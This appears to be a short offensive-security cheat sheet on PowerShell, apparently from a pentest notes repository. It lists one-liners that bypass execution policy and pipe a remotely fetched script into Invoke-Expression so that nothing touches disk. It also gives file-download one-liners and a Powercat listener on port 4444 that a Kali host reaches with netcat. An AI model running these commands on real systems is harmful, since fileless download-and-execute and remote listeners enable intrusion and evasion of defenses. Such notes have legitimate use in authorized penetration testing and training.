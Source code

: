 
# Powershell Kungfu

## Powershell Download

There is nothing on disk in this option

	powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://server/file.ps1')|iex"

PowerShell  one liner download (any version)

	(New-Object System.Net.WebClient).DownloadFile("http://server/file.ps1", "file.ps1")  

PowerShell  one liner download (4.0 & 5.0)

	Invoke-WebRequest "http://server/file.ps1" -OutFile "file.ps1"  

## Powercat

Download script from here : https://github.com/besimorhino/powercat/blob/master/powercat.ps1

import and start listener

	PS C:\Users\testuser\Desktop\share> . .\powercat.ps1
	PS C:\Users\testuser\Desktop\share> powercat -l -p 4444
	i connected from kali
	
connect from another device

	┌──(kali㉿kali)-[~/Desktop]
	└─$ nc 192.168.200.112 4444                                    
	i connected from kali